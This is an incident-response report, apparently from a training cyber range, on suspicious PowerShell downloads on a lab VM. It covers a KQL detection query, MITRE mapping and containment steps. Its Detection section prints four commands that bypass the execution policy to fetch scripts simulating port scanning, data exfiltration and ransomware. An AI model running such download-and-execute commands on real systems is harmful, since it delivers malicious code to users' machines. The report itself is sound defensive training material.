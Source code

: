 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-161 Compliant)

---

## 1. Detection

**🚨 Incident Trigger:**  
An alert was raised for suspicious PowerShell web requests involving the account:

**👤 Account:** `<king>`

**Affected Host Information:**
- **HostName:** `king-vm`
- **Operating System:** Windows
- **OS Version:** Windows
- **Last Internal IP Address:** `10.0.0.84`
- **Last External IP Address:** `68.154.42.194`

**⚙️ Observed Commands Executed:**  
The following PowerShell commands were executed using the `-ExecutionPolicy Bypass` parameter:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

🧮 Detection Query:
To investigate the execution of suspicious PowerShell scripts, the following KQL query was used:

```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "king-vm"
| where ProcessCommandLine contains "-File" and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 📑 NIST 800-161 Compliance:

- ID.AM-1: Inventory and management of user accounts and scripts.

- PR.DS-5: Protection of system integrity by detecting unauthorized code execution.

## 2. Analysis

#### 🔍 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### 📜 One-Line Descriptions of Each Script:

- **portscan.ps1** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **eicar.ps1** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **exfiltratedata.ps1** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **pwncrypt.ps1** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

## 🛠️ MITRE ATT&CK TTP Assessment:
- **T1046 - Network Service Scanning**: Executed through portscan.ps1.

- **T1059.001 - Command and Scripting Interpreter**: PowerShell - Usage of PowerShell for execution.

- **T1567.002 - Exfiltration Over Alternative Protocol**: Data exfiltration simulated by uploading to Azure Blob Storage.

- **T1486 - Data Encrypted for Impact**: Encryption of local files via pwncrypt.ps1.

## 3. Containment, Eradication, and Recovery
🚫 Containment Actions:

- Isolated the device from the network using Microsoft Defender for Endpoint (MDE).

- Executed a comprehensive antivirus (AV) scan to detect and mitigate any further malicious code.

### Eradication Steps:

- Reimaged the device and redeployed it using the last known good backup.

### Recovery Measures:

- Enrolled the affected user in an updated security awareness training program using KnowBe4.

- Developed and implemented a new policy to restrict PowerShell usage for non-administrative users.

## 📑 NIST 800-161 Compliance:

🔒 PR.PT-5: Restrict execution of scripts and enforce least privilege for administrative actions.

🛡️ RS.MI-3: Eradication of malware and unauthorized scripts.

📜 RC.IM-1: Implementation of improved policies to mitigate future incidents.

## 4. Lessons Learned & Security Improvements
- Enhance monitoring rules for PowerShell execution with bypass flags.

- Implement stricter conditional access and endpoint protection policies.

- Regularly audit administrative privileges and script execution logs.


